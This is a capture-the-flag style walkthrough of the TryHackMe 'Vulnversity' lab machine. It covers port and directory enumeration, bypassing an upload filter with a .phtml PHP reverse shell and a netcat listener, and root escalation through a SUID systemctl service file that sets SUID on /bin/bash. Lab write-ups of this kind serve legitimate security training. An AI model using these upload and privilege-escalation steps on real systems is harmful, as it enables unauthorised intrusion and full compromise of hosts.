

## Machine Resolution: Vulnversity

[TryHackMe: Vulnversity Machine](https://tryhackme.com/room/vulnversity)

**Objective:** Perform enumeration, exploitation, and privilege escalation on the "Vulnversity" machine to identify vulnerabilities.

---

## Machine Description
The **Vulnversity** machine is an introductory-level machine on TryHackMe that allows practicing basic techniques of enumeration, port scanning, exploitation of common services, and privilege escalation.

## 1. General Information about the Machine
- **Machine Name**: Vulnversity
- **IP Address**: 10.10.120.94
- **Objective**: Gain access and privileges on the machine using ethical hacking techniques.

## 2. Enumeration
We scan with `nmap` to detect service versions. This gives us a better idea of what specific vulnerabilities might be present.
```bash
nmap -sC -sV -oN 10.10.120.94/initial_scan.txt 10.10.120.94
``` 

#### Used flags
- **-sC:** Runs default nmap script scans, getting more details about services (like versions and potential vulnerabilities).
- **-sV:** Detects versions of services on each open port, helping us determine if they are vulnerable or outdated versions.
- **-oN  nmap/initial_scan.txt** Saves the scan results to a file named initial_scan.txt for future reference.

#### Scan Results
```plaintext
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 3.0.3
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
3128/tcp open  http-proxy  Squid http proxy 3.5.12
|_http-server-header: squid/3.5.12
|_http-title: ERROR: The requested URL could not be retrieved
3333/tcp open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)

``` 

#### Gobuster
Perform brute force attack with `Gobuster` to determine if there are hidden directories.
When I run the scan like this it shows me an error, this happens because the web server is not on the standard port (port 80), but rather on port 3333
```bash
gobuster dir -u http://10.10.195.20 -w /usr/share/wordlists/dirb/big.txt
``` 

#### Command is executed again specifying port

```bash
gobuster dir -u http://10.10.195.20:3333 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
``` 

#### Brute force result
In these results several directories are identified, I focus on one called `/internal/`, in this path I can upload files to the server.


#### Dirbuster: Brute force to internal folder
With this tool perform a scan of the internal folder to identify more important directories
    
In the results I identified three routes that could be where the uploaded files are saved.
```plaintext
/images/
/icons/
/uploads/
``` 

## 3. Exploitation of Vulnerabilities
In this part of the exploitation I am going to focus on the route that I found in the enumeration phase, what I am going to try is to upload a malicious file and thus be able to compromise the server.
For this purpose the first thing I must do is identify what type of files can be uploaded in the file upload form, this can be done in several ways:
- **Source code:** inspect the application to see if the form contains the accept attribute where it specifies what type of files are accepted.

- **Test File Uploads:** Perform tests by uploading different types of files and observe the server's responses. This can help you identify which extensions are accepted or rejected.

- **Burbsuite** With this tool I can quickly and more safely identify what type of files are allowed
 1. **Run Burp:** Making sure to intercept the request when uploading a test file.
    
 2. **Intruder:** When you are in the intruder, select the extension of the test file, since this is the one that will change during the attack.
    
 3. **File with extensions:** I create a file with different extensions and in Burb in the payload tab I load this file and start the attack.
    ```plaintext
    .png
    .jpg
    .php
    .php3
    .php4
    .php5
    .phtml
    ``` 
    
    
4. **Results:** In the results of the attack it can be observed that one of the extensions is a different length than the others, this indicates that this could be the accepted extension.
    
5. **Reverse shell:** We are going to use a PHP reverse shell as our payload, [shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Once I get this shell, I edit the IP of the attacking machine and then change the extension to phtml, which is the extension I described above that is allowed.
6. **Having the payload:** I go to a terminal on my attacking machine and run the following command to listen for a reverse connection
    ```bash
    nc -lvnp 1234
    ``` 
7. **Upload file:** The next step is to upload the payload to the server and go to where it was saved so that it runs and thus obtain my connection.
    ```bash
    10.10.207.213:3333/internal/uploads/v.phtml
    ``` 
8. **Reverse Shell:** When I upload and run the file I get my connection reversed
    

## 4. Privilege Escalation
To escalate privileges one of the first steps I do is to identify which files contain a special permission called SUID, which grants temporary permissions to a user to execute the binary with the permission of the owner instead of the user who executes it. To find these files I run:
```bash
find / -perm -4000 -ls 2>/dev/null
```
In this case, among all the listed files there is one that stands out. `/bin/systemctl`
```plaintext
131133     40 -rwsr-xr-x   1 root     root          40152 May 16  2018 /bin/mount
131148     44 -rwsr-xr-x   1 root     root          44680 May  7  2014 /bin/ping6
131182     28 -rwsr-xr-x   1 root     root          27608 May 16  2018 /bin/umount
131166    648 -rwsr-xr-x   1 root     root         659856 Feb 13  2019 /bin/systemctl
131147     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /bin/ping
133163     32 -rwsr-xr-x   1 root     root          30800 Jul 12  2016 /bin/fusermount
405750     36 -rwsr-xr-x   1 root     root          35600 Mar  6  2017 /sbin/mount.cifs
``` 

#### External resource 
On [this page](https://gtfobins.github.io/gtfobins/systemctl/#suid) you can find different scripts that when executed will allow me to escalate privileges.
In this case the code executed is the following and what it does is indicate that the file /bin/bash should receive the SUID bit, this allows that every time any user executes /bin/bash, the command is executed with root permissions
```plaintext
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "chmod +s /bin/bash"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
``` 

Now when starting an instance of bash it will be executed as root user
```bash
bash -p
```



